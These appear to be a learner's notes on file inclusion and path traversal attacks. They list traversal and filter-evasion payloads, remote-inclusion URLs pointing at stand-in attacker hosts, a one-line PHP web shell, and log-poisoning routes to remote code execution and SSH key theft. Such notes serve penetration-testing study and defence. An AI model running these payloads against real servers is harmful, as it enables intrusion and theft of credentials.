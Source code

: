# Local/Remote File Inclusion OR Path Traversal

_Notes from lessons by PinkDraconian_

**What are File Inclusions?**

Consider a URL: `https://example.com/view?file=cats.txt`

The backend code accepts unsanitized user input:
```
$file = $_GET['file'];
include($file);
```

Threat - Attacker can use this to retrieve (include) any other file: `https://example.com/view?file=../../etc/passwd`

Two types:
1. **Local FI** : If the included file is local to the target (like the /etc/passwd file). Common but hard to exploit.
2. **Remote FI** : If the inlcuded file is remote to the target (attacker hosted exploit being executed by the target server). Less common but easier to exploit.

Severity: By itself it is low. Need to chain it to make it impactful. Eg: LFI leading to RCE or sensitive info exposure.

**How to find a target?**

Scenarios to lookout for:
1. Files fetched and printed to a page. `https://example.com/?file=cats.txt`
2. Files served as downloads. `https://example.com/?download=cats.mp4`
3. Files parsed by a backend interpreter. `https://example.com?load=cats.php`
4. The above examples are GET parameters. We should also look at POST fields.

List of useful parameters
```
cat   dir   action    board   date
detail    file    download    path    
folder    prefix    include   page
inc   locate    show    doc   site
type    view    content   document
layout    mod
```

## Test if the target is vulnerable
1. Grab a file that you know will exist on the system
```
Linux: /etc/passwd
Windows: %WINDIR%\win.ini
MacOS: /etc/fstab
```
2. Add a lot of `../../../` because you neet to reach `/`. And `../` of `/` is `/`.

## Evade Filters:

1. Null Byte Termination
```
?param=../../../etc/passwd%00
```
2. Double HTML encoding
3. UTF-8 encoding
4. Path and Dot truncation - PHP truncates very long filenames
```
?param-../../../etc/passwd........[Add more]
?param-../../../etc/passwd\.\.\.\.[Add more]
?param-../../../etc/passwd/./././.[Add more]
?param-../../../[Add more]../../../etc/passwd
```
5. Add extra ../ If a system removes `../` from `....//` it will still be `../`
```
?param=....//....//etc/passwd
?param=..///////..////..//////etc/passwd
?param=..///////..////..///////etc/passwd
```
6. NGINX Alias LFI
If there is an alias mapping like
```
location /i {
  alias /data/w3/images/;
 }
```
If we browse to `/i../` instead of `i` -> we will browse to `/data/w3` instead of `/data/w3/images`
7. Basic RFI
```
?param=http://evil.com/shell.php
```
8. SMB Shares - In PHP when `allow_url_include` and `allow_url_fopen` are disabled, we can use SMB shares (windows only) for file inclusion.
```
?param=\\IP\SHARE\shell.php
```

## Towards RCE

### 1. Host a malicious file on attacker's website
```
<?php 
system($_GET['c']);
?>
```
Include the malicious file
```
https://example.com/index.php?file=http://attacker.com/mal.php
```

### 2. Apache logs LFI
- You can make a request with the payload as a header. This will write it to the log file `/var/log/apache2/access.log`. 
- If you can include the log file, the server might execute the payload code.
```
# Make a request to 
https://example.com/index.php?file=/var/log/apache2/access.log&c=whoami
# Add the payload as User-Agent string
<?php system($_GET['c']);?>
```
Check if response has the output of the command passed using `c` parameter.

### 3. Through `/proc/self/environ`
- The `/proc/self/environ` contains information about the current process which is the web server.
- You can make a request with the payload as a User-Agent header.
- If you can include the `/proc/self/environ` file, you might see the result of the payload executed.


### 4. Through email
- You can send an email containing the payload to a USER.
- If you can include `/var/mail/USER`, you might see the result of the payload executed.

### 5. Using VSFTPD log
- The VSFTPD log is `/var/log/vsftpd.log`
- We can login to the VSFTPD service with the payload as the username. This invalid login will be logged.
- If you can include `/var/log/vsftpd.log`, you might see the result of the payload executed.

### 6. Using File upload
- Upload a malicious file and include it.
- Upload a zip file (file.zip) containing a php file (rce.php). Include using a **zip wrapper** `zip://file.zip%23rce.php`

### 7. Using exposed `phpinfo()`
- Check if `file_uploads = on` in the exposed phpinfo() page.
- Upload a malicious file using phpinfo. It will be stored in `/tmp` for a very short period of time.

### 8. Through SSH
- Include `/home/USER/.ssh/id_rsa`
- Get the rpivate key and crack it if needed.
- Then SSH as the user `ssh -i id_rsa user@ip`.

### 9. Through PHP sessions
- PHP session cookie info is stored in `/var/lib/php5/sess_COOKIE` file.
- Change the cookie value to the payload. It will be logged.
- If included it may show the result of payload execution.

### 10. Through `/proc/PID/fd/FD` [NOT FEASIBLE]
- Send payloads in as many services (processes) as possible.
- Bruteforce the PID and fd to find a process log file that has the result of the payload execution.

**Wrappers**

We can use wrappers to fetch source code. This itself is a vulnerability,but can als be used for further white-box analysis.

1. php://filter 
2. data://
3. input://
4. zip://
5. phar://
6. expect:// (not enabled by default)

**Wordlists**
1. [Sec lists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
2. [List of files to look at](https://github.com/hussein98d/LFI-files)

**Resources**
1. [Apache LFI using log poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/) 
2. [Wrappers Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
